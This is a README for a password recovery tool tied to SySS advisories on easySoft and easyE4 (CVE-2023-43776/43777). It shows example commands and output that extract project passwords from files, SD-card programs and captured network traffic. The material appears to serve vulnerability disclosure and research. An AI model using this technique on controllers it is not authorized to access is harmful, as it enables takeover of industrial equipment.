 Password recovery easySoft and easyE4 (CVE-2023-43776 and CVE-2023-43777)
====

This script can extract the project password from an easySoft project file as well as calculating password candidates for easyE4 programs stored on an SD card.
In addition, password candidates can also be extracted from a network stream which was recorded during administration, for example.

You can find further details about those security issues in our SySS security advisories SYSS-2023-007, SYSS-2023-008, SYSS-2023-009 and SYSS-2023-010.

Usage
-----

Retrieving the password from a project file:
```
> easy_password_recovery.py PRJ syss_prj_pw_123456.e80
easy/easySoft password recovery tool
     by Manuel Stotz, SySS GmbH

[*] Start password recovery

[*] Found password 123456

[*] Bye!
```

Calculating password candidates for an easyE4 program stored on an SD card:
```
> easy_password_recovery.py SDC syss_prg_pw_222222.prg
easy/easySoft password recovery tool
     by Manuel Stotz, SySS GmbH

[*] Start password recovery

[*] Found password candidate for encoded password 9fd0204: 222222
[*] Found password candidate for encoded password 9fd0204: Q628AW
[*] Found password candidate for encoded password 9fd0204: R0ZUS6

[*] Bye!
```

Calculating password candidates from a network stream intercepted during administration:
```
> easy_password_recovery.py PCAP syss_network_pw_111111.pcapng
easy/easySoft password recovery tool
     by Manuel Stotz, SySS GmbH

[*] Start password recovery

[*] Found password candidate for encoded password 0x7022c848040ac202/0xe22483f6: 111111
[*] Found password candidate for encoded password 0x7022c848040ac202/0xe22483f6: Q3YVP5
[*] Found password candidate for encoded password 0x7022c848040ac202/0xe22483f6: ZCAAQS

[*] Bye!
```

Requirements
------------

* `python 3.x`
* `pyshark`

Author
----------

Manuel Stotz (SySS GmbH).

Disclaimer
----------

Use at your own risk. Do not use without full consent of everyone involved.
For educational purposes only.